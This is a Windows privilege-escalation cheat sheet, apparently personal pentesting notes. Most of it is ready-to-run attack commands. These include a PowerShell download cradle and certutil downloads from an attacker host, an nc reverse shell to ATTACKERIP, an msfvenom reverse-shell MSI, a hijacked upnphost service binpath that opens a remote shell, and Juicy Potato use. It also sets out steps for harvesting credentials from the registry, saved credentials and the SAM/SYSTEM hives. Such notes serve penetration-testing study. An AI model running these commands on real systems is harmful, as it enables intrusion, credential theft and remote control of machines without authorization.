 ## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/


```
Run all checks while avoiding time-consuming searches:
.\winPEASany.exe quiet cmd fast
winPEAS.exe -a
```
### SeatBelt
```
//system info
SeatBelt.exe system

// user info
SeatBelt.exe user
```

### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```
## Installed Applications
Look for not standard application they might have a publice exploit that will allows us to privesc

```
.\seatbelt.exe NonstandardProcesses

.\winPEASany.exe quiet processinfo
```
Once you find an interesting process, try to identify its version then use EXPLOITDB

## Registry exploits

### Autorun

if you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```
 .\winPEASany.exe quiet applicationsinfo
 
 //or use requery
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 
 //and then use accesschk.exe to verify the permissions on each one:
 
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
 

```
 Exploit:
 ```
 copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
 ```

### AlwaysInstallElevated

```
// Use winPEAS to see if both registry values are set:
.\winPEASany.exe quiet windowscreds

// Alternatively, verify the values manually: (both should return 1)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Exploit:
```
// Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

//Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
## Passwords Hunting

### Registries
Plenty of programs store configuration options in the Windows Registry. It is always worth searching the Registry for passwords.
```
// Use winPEAS to check common password locations:
.\winPEASany.exe quiet filesinfo userinfo

//manual check
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Saved Creds
Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement
 ```
.\winPEASany.exe quiet cmd windowscreds
// We can verify this manually using the following command:
cmdkey /list

```
Exploit:
```
//We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
````


### Configuration files

```
//Use winPEAS to search for common files which may contain credentials:

.\winPEASany.exe quiet cmd searchfast filesinfo

//Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:
findstr /si password *.xml *.ini *.txt

```
### SAM and SYSTEM files
Windows stores password hashes in the Security Account Manager (SAM).The hashes are encrypted with a key which can be found in a
file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.
```
//try to read these files that contain user password hash
# Usually %SYSTEMROOT% = C:\Windows
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\system
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\system

```
## Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered
by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure
tasks to run as other users, including SYSTEM.
```
schtasks /query /fo LIST /v

//powershell
Get-ScheduledTask | where {$_.TaskPath -notlike
"\Microsoft*"} | ft TaskName,TaskPath,State
```

## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```
